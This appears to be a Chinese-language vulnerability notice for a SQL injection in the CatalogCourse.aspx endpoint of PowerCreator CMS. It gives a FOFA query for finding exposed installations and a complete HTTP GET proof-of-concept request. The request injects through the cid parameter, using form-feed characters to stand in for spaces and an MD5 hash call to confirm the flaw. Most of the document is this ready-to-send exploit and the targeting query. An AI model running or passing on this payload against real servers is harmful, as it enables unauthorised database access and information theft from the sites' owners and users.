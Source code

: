 ## PowerCreator接口CatalogCourse.aspx存在sql注入漏洞

PowerCreator接口 CatalogCourse.aspx存在任意文件sql注入漏洞。攻击者可利用该漏洞获取服务器上的信息。

## fofa

```yaml
app="PowerCreator-CMS"
```

![image](https://github.com/user-attachments/assets/fcc5c0c8-6a56-42a0-9aba-0d65b1d63a56)

## poc

```yaml
GET /CatalogCourse.aspx?cid=1%0Cand%0C1=sys.fn_sqlvarbasetostr(HashBytes(%27MD5%27,%27123456%27))-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: ASP.NET_SessionId=l2wuj2tri5e554020jeezoyw; language=simpleChineses
Pragma: no-cache
Cache-Control: no-cache


```
